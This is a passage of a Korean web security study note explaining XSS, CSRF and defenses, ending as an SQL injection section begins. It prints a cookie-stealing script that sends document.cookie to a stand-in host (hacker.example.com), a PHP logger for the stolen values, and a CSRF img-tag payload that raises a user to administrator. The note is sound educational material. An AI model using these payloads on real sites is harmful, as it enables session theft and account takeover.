     ```php
    /*해커의 서버(http://hacker.example.com)로 클라이언트의 쿠키 전송*/
    <script>
      window.location = 'http://hacker.example.com/xss.php?log=' + document.cookie
    </script>

    /*파라미터를 log.txt에 저장하는 xss.php*/
    <?
      $fp = fopen("log.txt","a+");
      fwrite($fp,$_GET['log']);
      fclose($fp);
    ?>
    ```

  - xss를 응용한 공격 방식들

  ![xss 응용 공격](https://user-images.githubusercontent.com/66258691/126022559-eca8ac1b-588d-4afa-afe8-8fcd9027597f.jpg){: width="50%" height=50%"}

### 사이트 간 요청 위조 공격(CSRF)

- 사용자가 자신의 의지와는 무관하게 해커가 원하는 주소를 요청시키는 공격 기법
- 예시

  ![회원정보 (2)](https://user-images.githubusercontent.com/66258691/126022751-025f1f7e-93c1-425a-921f-fbdfc71c0b5a.jpg){: width="50%" height=50%"}

  - 관리자가 페이지에서 버튼을 통해 회원정보수정을 하게되면 처리를 위해 `POST` 혹은 `GET` 메소드로 데이터를 전송
    `http://example.com/admin/member_modify_ok.php?no=198&pass=1234&passre=1234&grade=1grade`
  - 인자가 1일 때 일반, 2일 때 관리자 등급
  - _쿠키 공격_ 예제에서 다음과 같은 img 태그를 심어 보내면 198번을 관리자 등급으로 변경하게 됨
    `<img src= http://example.com/admin/member_modify_ok.php?no=198$pass=1234$passre=1234&grade=2`

### 방어 기법

- <> 를 엔티티 문자인 `&lt;`와 `&gt;` 로 치환해 태그를 막는 방법
- 많은 공격 포인트가 존재하여 해당 취약점에 대한 완벽한 방어 기법 존재 하지 않음
- 페이스북이나 구글은 자사 웹 사이트의 XSS 취약점을 발견하면 보상을 진행
  - 페이스북: <https://facebook.com/whitehat/>
  - 구글: <http://www.google.com/about/appsecurity/reward-program/>

---

## SQL Injection Advanced

### SQL Injection 공격 기법

- **Logic**

  - 논리 연산을 이용한 공격 방법

  ```
  SELECT uid
  FROM Usertable
  WHERE username="admin" and userpw="admin";
  ```
